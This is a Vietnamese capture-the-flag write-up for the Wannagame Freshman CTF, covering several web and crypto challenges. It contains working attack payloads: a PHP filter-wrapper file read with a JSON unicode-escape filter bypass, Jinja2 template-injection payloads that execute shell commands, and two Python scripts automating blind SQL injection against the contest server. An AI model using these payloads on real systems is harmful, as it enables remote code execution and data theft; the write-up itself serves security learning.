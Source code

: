 ```yaml
---
title: "Wannagame Freshman CTF writeup"
date: 2023-11-12 00:00:00 +0800
categories: [CTF Writeup]
tags: [SQL Injectiom,SSTI]
---
```


# WannaWinFreshman-Writeup
## Bài 1 Warmup PHP:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/71156a59-19c3-4180-be30-2b3abeb10d1d)



- Tóm tắt đề thì đại khái là đề bảo chúng ta phải POST data lên dưới dạng json có key là **page** và sau đó chương trình sẽ server sẽ decode ra và đọc file trong server
- Sau khi phân tích và tìm kiếm trên mạng thì mình tìm được 1 bài viết[LINK](https://trustfoundry.net/2018/12/20/bypassing-wafs-with-json-unicode-escape-sequences/)
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/326ec395-87d2-4be9-a7c5-4e6071dc17f0)


- Cơ bản là json_decode nó sẽ decode luôn mã unicode thành chữ cái vì vậy mình chỉnh lại cái payload của mình từ 
`php://filter/convert.base64-encode/resource=/flag`
thành
`\u0070hp://filter/convert.base64-encode/resource=/flag`
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/92cf2e27-8845-4860-90de-d34a1cebbdfe)


- Decode base64 và ra flag
- Flag: **W1{w3lc0m3_w3b_w4rrj0rs}**
## Bài 2 Namename:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/defe9e88-e3d5-414a-a13b-e3e72e7f9c19)


- Bài này cho 1 đường link và không cho thêm gì khác sau khi xem source của web này thì thấy có 1 đường dẫn là `/wannaw1n`
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/8f8ae6bf-3d67-4503-ba1a-60d567c8ecc1)


- Sau khi đi tới đường dẫn /wannaw1n mình nhận ra ngay đây là SSTI jinja2
- Payload : {% raw %}`{{().__class__.__base__.__subclasses__()[279]('ls',shell=1,stdout=-1).communicate()}}` {% endraw %}
- Và nó bị chặn ![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/252274f5-06d8-4347-845e-6e446525d1de)


- Sau vài thử nghiệm thì có vẽ nó chặn dấu `.` và `[]` nên mình chuyển qua `|attr `

- Payload mới: {% raw %}`{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('ls',shell=1,stdout=-1)|attr('communicate')()}}`{% endraw %}
- Và nó đã hoạt động

![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/2aa34a0a-8783-4e3a-bfef-57e4e5f35538)


- Bây giờ sửa lại payload từ `ls` sang `cat flag.txt`
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/66dfde32-1efd-4d9f-9c6b-7003db035ef2)

- Và nó vẫn bị chặn cái gì đấy nên mình sử dụng cách này bypass filter (chổ này là chặn dấu `.` và chữ `f` thì phải)
- {% raw %}`{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('cat+*',shell=1,stdout=-1)|attr('communicate')()}}`{% endraw %}
- Cách này sẽ đọc hết tất cả các file trong thư mục hiện tại và tìm được flag

![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/eb16cde7-852a-4c5c-bb9b-55413df94330)

- Flag: **W1{U_are_master_in_SSTI}**
## Bài 3 Solite:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/6fd2d2cb-901f-46f3-bdeb-c215efb0ef9a)

- Bài này mình khá tiếc vì mình đọc không kỉ filter nên mình không làm được
- Tóm tắt đề thì bài này chỉ cho chúng ta cái page như thế này (blackbox)

![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/5c47c030-9790-44ae-a5a2-903a5904b768)

- Sau khi đọc code và được nghe 1 số gợi ý thì mình hiểu được đây là Blind SQL Injection
- Nhìn kĩ source thì có 1 lỗ hổng cho chúng ta khai thác là substr không bị filter
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/a4f8f195-8a8c-4a9f-9d70-1cbca22199ac)

- Đây là query của bài
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/14d13c79-1151-46d3-9288-13b8647e2de8)

- Sau một vài thử nghiệm thì mình tìm được cách để in ra tên của bảng
- `Payload: 1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),i,1) is 'a'--`
- Tóm tắt :
- Payload này sau khi gửi lên server thì server sẽ thực hiện 1 query như sau `SELECT * FROM API WHERE id LIKE '%1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--%'`
- `select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'` sẽ trả về tên của tất cả các bảng
- `substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1)` sẽ lấy 1 ký tự a bắt đầu từ vị trí i 
- `1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--` cái này sẽ so sánh ký tự mà substr vừa cắt ra nếu chính xác thì sẽ thực hiện lệnh đằng trước là `SELECT * FROM API WHERE id LIKE '%1'` và trả về cột id=1 nếu sai thì nó không thực hiện và chẳng trả về gì cả
- Đây là script mình tìm tên của bảng


```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="
payload="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--"
table_name = ""
haha = 0
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%%'),%d,1) is '%c'--" %(i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            table_name += ps
            print("Table names: ",table_name)
            haha +=1
    if haha < i:
        break
print("Success all the names of the tables are:",table_name)
```
- Và tìm ra được tên của các bảng là
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/de22bd13-a94c-4b06-b556-bc7125006578)


`Tables: API,flag_c1abd148_acae_40be_a953_eae333f90da0`
- Bây giờ dựa vào cái trên lấy ra flag từ bảng `flag_c1abd148_acae_40be_a953_eae333f90da0` thôi
- Script của mình

```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="

table_name = "flag_c1abd148_acae_40be_a953_eae333f90da0"
#payload = "1' and substr((select flag from flag_c1abd148_acae_40be_a953_eae333f90da0),1,1) is 'a'--"
haha = 0
flag =""
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select flag from %s),%d,1) is '%c'--" %(table_name,i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            flag += ps
            print("Flag is: ",flag)
            haha +=1
    if haha < i:
        break
print("Here is your flag:",flag)
```

- Flag: **W1{I_th1nk_u_r_so_lite^_^}**
## Bài 4 Differences:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/741e394e-645f-4cb2-89b8-b9b3af8480c8)

- Flag ngay ở trong file
- Flag: **W1{SaKur4_s0_b34uTiFuL_RI9ht?????}**
## Bài 5 Free Flag:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/5a6a78c9-2a29-4b8f-8bad-06ac8edf244d)


- Đọc file pcapng ta tìm được source và key


```py
import base64

BANNER = """ ___       __   ________  ________   ________   ________  ___       __     _____  ________      
|\  \     |\  \|\   __  \|\   ___  \|\   ___  \|\   __  \|\  \     |\  \  / __  \|\   ___  \    
\ \  \    \ \  \ \  \|\  \ \  \\\ \  \ \  \\\ \  \ \  \|\  \ \  \    \ \  \|\/_|\  \ \  \\\ \  \   
 \ \  \  __\ \  \ \   __  \ \  \\\ \  \ \  \\\ \  \ \   __  \ \  \  __\ \  \|/ \ \  \ \  \\\ \  \  
  \ \  \|\__\_\  \ \  \ \  \ \  \\\ \  \ \  \\\ \  \ \  \ \  \ \  \|\__\_\  \   \ \  \ \  \\\ \  \ 
   \ \____________\ \__\ \__\ \__\\\ \__\ \__\\\ \__\ \__\ \__\ \____________\   \ \__\ \__\\\ \__\\
    \|____________|\|__|\|__|\|__| \|__|\|__| \|__|\|__|\|__|\|____________|    \|__|\|__| \|__|
"""

KEY = bytes.fromhex('deadbeef')

def encryptSecret(secret):
    lst_byte = []
    for i in range(len(secret)):
        enc_byte = ord(secret[i]) ^ KEY[i % len(KEY)]
        lst_byte.append(enc_byte.to_bytes(1, 'big'))
    
    return base64.b64encode(b''.join([_ for _ in lst_byte])).decode()

if __name__=='__main__':
    print(BANNER)
    secret = input("> Please give me your secret: ")
    print("\n> Here is your encrypted secret:", encryptSecret(secret)
```

![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/b9af05e2-79f2-40e9-ab06-2bbbacface9e)

- Decrypt lại ta sẽ có flag


```py
import base64

KEY = bytes.fromhex('deadbeef')

def decryptSecret(encrypted_secret):
    encrypted_bytes = base64.b64decode(encrypted_secret.encode())
    decrypted_bytes = [encrypted_bytes[i] ^ KEY[i % len(KEY)] for i in range(len(encrypted_bytes))]
    decrypted_text = ''.join([chr(byte) for byte in decrypted_bytes])
    return decrypted_text

secret = "iZzFsKme0oOdndOqgdnxsKmZ0KG/2o+hgdA="

print(decryptSecret(secret))
```

- Flag: **W1{_w3llC0mE_tO_w4nNaw1N_}**
- ~~**Mấy bài còn lại mình chưa biết làm do dark quá**~~